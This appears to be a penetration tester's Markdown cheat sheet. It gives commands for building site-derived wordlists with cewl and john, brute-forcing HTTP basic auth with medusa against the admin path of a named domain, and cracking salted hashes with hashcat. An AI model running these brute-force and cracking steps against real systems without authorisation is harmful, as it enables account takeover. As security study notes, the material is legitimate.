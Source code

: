 ## UTILITIES
### dirbuster: brute-force website directories.
- find a login page
- generate word via `cwel`  
 ```cewl www.targetdomain.com -m 6 -w /root/target-dmoain-cewl.txt```
- use `john the ripper` to create mangled passwords list  
``` john --wordlist=/root/target-dmoain-cewl.txt --rules --stdout > mutated.txt ```
- pass the new password file to `medusa` for HTTP basci-auth brute force attach  
```  medusa -h fiprealty.com -u admin -P passwords.txt -M http -n 81 -m DIR:/admin -T 30  ```

### hash-identifier
Locate a password hash, and use `hash-identifier` to reveal the source/type.
> won't always work
- if the hash originates from a known app, you can investigate the app's source code to find how it was generated.
The source code might reveal that the hash was generated by `sha1` + 10 random digits...

### oclHashcat-plus
salt + hashed password cracker
- generate a passwords file
- make sure the 'split' the `hash:salt`, so the proggram can identify it
```
#salt of 10 digits
kjhgldskjhgbkjfgbhfdgbsdfg:yu34gy59p1
khgsjdgk865kn9gjrkjtyo9ujg:y689rkjhty
```
- use your `giant passwords list` (actual hashes:slat list) againt the new (wish to hack) list.
```
./hashcat64.bin -m 500 hash-and-salted-passwords.txt my-big-hashes-salted-ditionary.dict
```

## WORDLISTS
- /usr/share/dirbuster/wordlists/directory-list....

